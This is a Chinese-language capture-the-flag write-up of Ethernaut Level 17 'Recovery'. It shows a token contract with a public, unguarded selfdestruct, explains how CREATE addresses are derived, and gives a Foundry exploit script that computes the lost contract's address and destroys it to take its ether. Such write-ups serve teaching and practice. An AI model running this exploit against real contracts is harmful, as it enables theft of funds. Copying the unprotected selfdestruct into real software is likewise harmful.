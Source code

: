 # Level 17 - Recovery
## 題目
[Recovery](https://ethernaut.openzeppelin.com/level/0xAF98ab8F2e2B24F42C661ed023237f5B7acAB048)

### 通關條件
合約創建者建立了一個非常簡單的代幣工廠合約。任何人都可以輕鬆創建新的代幣。在部署第一個代幣合約後，創建者發送了 0.001 以太幣以獲得更多代幣。他們從此失去了合約地址。
如果您可以從遺失的合約地址中恢復（或刪除）0.001 以太幣，即完成該挑戰。
### 合約內容
``` solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
## 解題
題目給了一個創建代幣的工廠合約，並在創建後轉入 0.001 ETH，現在要求你將代幣合約的 0.001 轉回來，但是不知道代幣合約的地址。
看一下代幣的合約 `SimpleToken`，可以轉出的方式有兩種：
1. `transfer(address _to, uint256 _amount)`
2. `function destroy(address payable _to)`  
     關於自毀合約的功能以及特性在 [Level 07 - Force](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575) 就有考到
     
第 1 種方式只能轉出 `msg.sender` 的代幣，不符合現在的情境。所以只能呼叫合約自毀，為此我們必須找到代幣合約的地址。  
這裡考的是創建合約時的地址生成方式，詳細可以參考以下幾篇，都有清楚的說明：
- [[中文] WTF Solidity极简入门: 24. 在合约中创建新合约](https://github.com/AmazingAng/WTF-Solidity/tree/main/24_Create)
- [[中文] Solidity中通过工厂合约创建合约原理详解](https://learnblockchain.cn/article/8445)

接下來就是計算合約生成地址，address 就是關卡產生的實例地址，nonce 的話則是 1（如果是 EOA 就是從 0 開始計算，合約生成合約是從 1 開始，因為自己生成時 nonce 就已經 +1 了）。  
參數確定後代入地址生成的函數：
  ``` solidity
  address(uint160(uint256(keccak256(RLP_encode(address, nonce)))))
  ```  
  這裡 `RLP_encode()` 在 solidity 中沒有辦法直接呼叫指令計算（應該是有 Library，但我沒有找），我找了別人寫好的 [code](https://stackoverflow.com/a/76195239) 來計算，如果想瞭解 RLP 的計算方式可以參考以下幾篇：
- [Recursive-length prefix (RLP) serialization
](https://ethereum.org/zh-tw/developers/docs/data-structures-and-encoding/rlp/)
- [以太坊的指南针 - RLP编码](https://ethbook.abyteahead.com/ch4/rlp.html)

開始實作攻擊合約
1. 實作 `RLP_encode()`（17-30行）
2. 透過關卡實例地址找到代幣合約地址（8 行）
3. 呼叫代幣合約的自毀功能（12 行）
    
``` solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/17_Recovery.sol";

contract ExploitScript is Script {
    SimpleToken level17 = SimpleToken(payable(computeContractAddress(your_challenge_address, 1)));

    function run() external {
        vm.startBroadcast();
        level17.destroy(payable(msg.sender));
        vm.stopBroadcast();
    }

    // copy https://stackoverflow.com/a/76195239
    function computeContractAddress(address _origin, uint _nonce) public pure returns (address _address) {
        bytes memory data;
        if(_nonce == 0x00)          data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x80));
        else if(_nonce <= 0x7f)     data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, uint8(_nonce));
        else if(_nonce <= 0xff)     data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _origin, bytes1(0x81), uint8(_nonce));
        else if(_nonce <= 0xffff)   data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _origin, bytes1(0x82), uint16(_nonce));
        else if(_nonce <= 0xffffff) data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _origin, bytes1(0x83), uint24(_nonce));
        else                        data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _origin, bytes1(0x84), uint32(_nonce));
        bytes32 hash = keccak256(data);
        assembly {
            mstore(0, hash)
            _address := mload(0)
        }
    }
}
```
### 另一種找到代幣合約地址的方法
其實除了自己計算合約地址之外，也可以透過 [EtherScan (sepolia)](https://sepolia.etherscan.io) 直接找到，畢竟區塊鏈的特色就是所有行為都會被記錄在鏈上。在 [EtherScan (sepolia)](https://sepolia.etherscan.io) 輸入關卡地址，找到創建合約的那筆交易紀錄並查看接收方的地址，就可以找到代幣合約的地址了  
![Screenshot](https://hackmd.io/_uploads/BkhkmgR2A.png)




